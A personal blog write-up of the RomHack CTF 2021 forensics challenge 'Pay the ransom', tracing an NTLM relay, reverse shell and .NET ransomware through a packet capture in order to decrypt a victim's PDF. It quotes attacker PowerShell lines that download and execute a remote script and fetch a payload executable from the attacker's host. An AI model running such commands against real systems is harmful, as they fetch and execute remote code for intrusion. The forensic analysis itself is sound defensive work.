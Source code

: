 ```yaml
---
layout: post
title:  "Writeup: RomHack CTF 2021 - Pay the ransom"
#date:   2021-09-21 TBA
permalink: /writeups/romhack-2021-pay-the-ransom
---
```


# Writeup: RomHack CTF 2021 - Pay the ransom

This is a writeup for the "Pay the ransom" forensics challenge from RomHack CTF
2021 organized by [HackTheBox](https://www.hackthebox.eu).

As the initial setup for the challenge we receive two files, _invoice.pdf.enc_ and
_capture.pcap_, as well as a brief from the victim saying that their files are
encrypted. Unfortunately I did not copy the message before the CTF ended, so it's
gone for good now. The PCAP file is a network traffic capture file and the enc-file
is presumably one of the victim's files in encrypted form, which they said they
urgently needed to be decrypted.

I used Wireshark to browse the PCAP file. What I usually do with PCAP files in
CTF's is to see what are the most used protocols and quickly scan through the
entire thing to get a very rough overview of what has happened. In this case it
looks like there was some HTTP and SMB traffic at the start of the capture,
followed by plenty of plain TCP packets, and ending with a short HTTP interaction.
My initial hunch for what the large plain TCP stream would be was either an
encrypted communications channel, or an encrypted data transfer. Or both.

In the image below we can see that 192.168.1.8 (presumably the victim) is using
WebDAV to communicate with 192.168.1.16, the attacker, which in turn responds with
an NTLM authentication request. I'm not very familiar with the NTLM protocol, but
based on the capture it looks like the attacker is reusing the authentication
process to impersonate as the victim to the SMB service at 192.168.1.11.

[![HTTP-NTLM-SMB]({{site.path_img}}/writeups/romhack2021-ransom-http-ntlm-smb.png)]({{site.path_img}}/writeups/romhack2021-ransom-http-ntlm-smb.png)

If we look at the SMB traffic we see that the attacker has now authenticated as
CORP\fcastle. We also see that it is connecting to the \IPC$ share and using
SVCCTL. I don't know much about the details of how utilities like PsExec do
command execution over SMB, but my guess is it looks something like what we see
in this capture file. Following the TCP stream related to the SMB traffic we can
see that there are PowerShell commands being sent to 192.168.1.11.

[![SMB PowerShell]({{site.path_img}}/writeups/romhack2021-ransom-tcp-stream-smb.png)]({{site.path_img}}/writeups/romhack2021-ransom-tcp-stream-smb.png)

Let's decode that base64-encoded execute.bat:

``` bash
printf "aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAxADYAOgA4ADAAOAAwAC8AcgBlAHYALgBwAHMAMQAnACkAOwAkAHAAYQByAHQAMQA9ACIASABUAEIAewBuADAAdABfAHAANAB5ADEAbgBnACIA" | base64 -d

# Outputs:
# iex (new-object net.webclient).DownloadString('http://192.168.1.16:8080/rev.ps1');$part1="HTB{n0t_p4y1ng"
```

The attacker seems to have upgraded to a reverse shell. We've also got the first
part of the flag: `HTB{n0t_p4y1ng`.

When looking for _rev.ps1_ and the resulting reverse shell, I noticed that the
+/- buttons in the follow-dialogue are a handy way of browsing the TCP streams.
The HTTP request for _rev.ps1_ is in stream 7 and the shell in 8.

[![TCP stream
browsing]({{site.path_img}}/writeups/romhack2021-ransom-browse-stream.png)]({{site.path_img}}/writeups/romhack2021-ransom-browse-stream.png)

The reverse shell was doing some basic enumeration of the system and using
Mimikatz. It also issued the following command:

``` powershell
iex (New-Object System.Net.WebClient).DownloadFile("http://192.168.1.16:8080/music.exe","C:\Users\Public\Music\music.exe")
```

The brief also mentioned that the victim was listening to music while this
happened. This was pretty much a hint for what to investigate next. I extracted
_music.exe_ and opened it in dotPeek on a Windows VM. As a side note, I use
[Flare VM](https://github.com/mandiant/flare-vm) as my Windows test machine, as
it installs plenty of handy software.

The binary decompiles nicely and reveals a `Reverse_Shell` namespace. Sounds
relevant. There is also a string called `part2` with the value `_th3_r4ns0m_1s`.
No doubt the 2nd part of the flag. Most of the code in the reverse shell is
fairly standard - open a TCP stream to C&C server, encrypt (xor) the data,
receive commands for either RCE or something specific. The most relevant part of
the program can be seen in the image below:

[![Reverse shell encryption
command]({{site.path_img}}/writeups/romhack2021-ransom-revshell.png)]({{site.path_img}}/writeups/romhack2021-ransom-revshell.png)

The function `injran` takes a xor key (`part2` was used as the key) and decrypts
an Assembly object from the attacker's server. I extracted the the _party.b64_
file from the capture and this time used
[CyberChef](https://gchq.github.io/CyberChef/) to decode and decrypt the data,
which turns out to be `PE32+ executable (console) x86-64 Mono/.Net assembly, for
MS Windows`. Decompiling it in dotPeek reveals some key information about how
the encryption was done. The images below are the key takeaways.

[![AES assembly object part
1]({{site.path_img}}/writeups/romhack2021-ransom-aes1.png)]({{site.path_img}}/writeups/romhack2021-ransom-aes1.png)

[![AES assembly object part
2]({{site.path_img}}/writeups/romhack2021-ransom-aes2.png)]({{site.path_img}}/writeups/romhack2021-ransom-aes2.png)

The program creates an AES cipher in CFB mode with blocksize of 128, PKCS7
padding, a PBKDF2 generated key with 50000 iterations with a randomly generated
password, and a randomly generated salt. The salt is prepended to the resulting
encrypted file, and the password is xored with a key (the same xor key). The
encrypted key is then sent to the attacker's server over HTTP to _/post.php_.
Those are all the required parameters for encryption and decryption. Below is an
image of the decrypted PDF.

[![Invoice
PDF]({{site.path_img}}/writeups/romhack2021-ransom-invoice-pdf.png)]({{site.path_img}}/writeups/romhack2021-ransom-invoice-pdf.png)

We've successfully decrypted the PDF and can most likely decrypt any other files
the malware might have encrypted. The full flag read
`HTB{n0t_p4y1ng_th3_r4ns0m_1s_4lw4ys_th3_4nsw3r!!!}`.

## This didn't really happen

What you just read was my recreation of how I would have properly solved this
challenge if I had had more than just 2 hours to solve it. After quickly
scanning through the PCAP for used protocols I just filtered to show HTTP
traffic. I saw the request to _/music.exe_ and thought it looked very
suspicious, so I completely skipped part 1. I spent most of the remaining time
reversing _music.exe_ and the rest. At this point I thought I had all the
necessary pieces: the required parameters to decrypt _invoice.pdf.enc_. I
fumbled around with CyberChef to decrypt the file, and had an almost valid PDF
file from the decryption. However, there were plenty of junk bytes at the start
of the resulting file, and I couldn't get a viewer to open it. It was corrupted.
I didn't know how to extract the IV and wasn't sure about the format of the
encrypted file. Nevertheless, at this point it was 3 minutes past the deadline,
so no points for my team :(.

I spent about another hour trying to get the PDF into a valid file and looking
for the first part of the flag. After missing the deadline I eventually realized
that I didn't need the correct IV since the decrypted file was only missing the
first few bytes of a valid PDF header (looks something along the lines of
`%PDF-17...`). When I noticed that the PDF only had the final part of the flag,
I felt both frustrated and relieved. Frustrated because it still wasn't over,
but relieved that it wasn't just a matter of minutes by which I'd missed the
deadline. No need to wonder about "If I had only done X I could've made it!".

Anyway, the challenge was fun and didn't feel too challenging for me, which was
a welcome change. Sometimes it's nice to do challenges where you pretty much
know where you're going for most of the time. I give this challenge seven and a
half bits out of four possible qubits or whatever...
